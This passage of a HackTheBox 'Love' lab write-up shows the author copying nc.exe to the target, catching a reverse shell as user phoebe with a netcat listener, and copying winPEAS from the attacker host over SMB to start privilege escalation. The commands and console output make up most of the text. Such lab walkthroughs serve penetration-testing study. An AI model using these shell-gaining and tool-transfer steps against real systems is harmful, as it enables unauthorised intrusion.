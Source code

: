 ```
┌──(root💀nehal)-[~]
└─# locate nc.exe
/opt/SecLists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
┌──(root💀nehal)-[~]
└─# cp /usr/share/windows-resources/binaries/nc.exe PSEC
```

![](assets/img/love-htb/80-transferNc.exe.png)

So, `nc.exe` is transferred. Now we need to set up a listener and get a shell back.

![](assets/img/love-htb/80-triggershell.png)

```
┌──(root💀nehal)-[~]
└─# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.239] 52862
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami
whoami
love\phoebe

C:\xampp\htdocs\omrs\images>
```

We have a shell as user `phoebe`. You can read the user flag now.

# [](#header-1)PRIVILEGE ESCALATION:

Let us begin with `winpeas`.

```
C:\xampp\htdocs\omrs\images>copy \\10.10.14.15\PSEC\winPEASx64.exe
copy \\10.10.14.15\PSEC\winPEASx64.exe
        1 file(s) copied.

C:\xampp\htdocs\omrs\images>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 56DE-BA30

 Directory of C:\xampp\htdocs\omrs\images

05/25/2021  11:19 AM    <DIR>          .
05/25/2021  11:19 AM    <DIR>          ..
05/18/2018  08:10 AM             4,240 facebook-profile-image.jpeg
04/12/2021  03:53 PM                 0 index.html.txt
01/27/2021  12:08 AM               844 index.jpeg
05/25/2021  04:11 PM            59,392 nc.exe
```